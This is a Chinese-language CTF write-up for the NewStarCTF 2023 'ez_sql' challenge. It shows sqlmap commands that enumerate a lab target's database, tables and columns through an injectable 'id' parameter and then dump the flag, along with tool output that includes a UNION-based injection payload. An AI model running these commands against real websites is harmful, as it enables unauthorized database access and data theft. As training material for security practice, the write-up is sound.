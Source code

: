 ```yaml
---
tags:
  - BuuCTF
  - 简单
  - SqlMap
---
```


# \[NewStarCTF 2023\] ez_sql

## 前置工作

先看题目描述 `inject me plz.` 我从来没听过这么清晰的要求，进入靶机网页

![](https://z1.ax1x.com/2023/10/12/piST7h8.png)

随便点一个进去，直接从 URL 中找到了注入点 `id`

```
http://d2479142-812f-459e-85c0-a713c73f2e26.node4.buuoj.cn:81/?id=TMP0919
```

## SqlMap 一条龙

### 查询数据库的名称

```
sqlmap -u http://d2479142-812f-459e-85c0-a713c73f2e26.node4.buuoj.cn:81/?id=TMP5512 --current-db
```

得到数据库名 `ctf`

```
[20:06:27] [INFO] resuming back-end DBMS 'mysql'
[20:06:27] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: id=TMP5512' UNION ALL SELECT CONCAT(CONCAT('qjjjq','lYwffGBbRblrhAwvvNSBHmvMxoaIKlBgjUVkWAne'),'qzqkq'),NULL,NULL,NULL,NULL-- aPEZ
---
[20:06:27] [INFO] the back-end DBMS is MySQL
web application technology: OpenResty
back-end DBMS: MySQL 5 (MariaDB fork)
[20:06:27] [INFO] fetching current database
current database: 'ctf'
```

### 查询表名

如下命令中的两个 `ctf` 即刚刚查询出来的数据库名

```
sqlmap -u http://d2479142-812f-459e-85c0-a713c73f2e26.node4.buuoj.cn:81/?id=TMP5512 -D ctf -T ctf --tables
```

运行后得到表名 `here_is_flag`

```
[20:08:03] [INFO] fetching tables for database: 'ctf'
Database: ctf
[2 tables]
+--------------+
| grades       |
| here_is_flag |
+--------------+
```

### 查询字段名

如下命令中，`ctf` 为数据库名，`here_is_flag` 为表名

```
sqlmap -u http://d2479142-812f-459e-85c0-a713c73f2e26.node4.buuoj.cn:81/?id=TMP5512 -D ctf -T here_is_flag --columns
```

运行后得到字段名 `flag`

```
[20:08:38] [INFO] fetching columns for table 'here_is_flag' in database 'ctf'
Database: ctf
Table: here_is_flag
[1 column]
+--------+--------------+
| Column | Type         |
+--------+--------------+
| flag   | varchar(255) |
+--------+--------------+
```

### 力挽狂澜

如下命令中，`ctf` 为数据库名，`here_is_flag` 为表名，两个 `flag` 为字段名

```
sqlmap -u http://d2479142-812f-459e-85c0-a713c73f2e26.node4.buuoj.cn:81/?id=TMP5512 -D ctf -T here_is_flag -C flag, flag --dump
```

最后得到如下内容

```
[20:12:33] [INFO] fetching entries of column(s) 'flag' for table 'here_is_flag' in database 'ctf'
Database: ctf
Table: here_is_flag
[1 entry]
+--------------------------------------------+
| flag                                       |
+--------------------------------------------+
| flag{dc3253bd-170c-4bd3-8f5f-eb1ada6005d0} |
+--------------------------------------------+
```

Flag 就在脸上了，`flag{dc3253bd-170c-4bd3-8f5f-eb1ada6005d0}`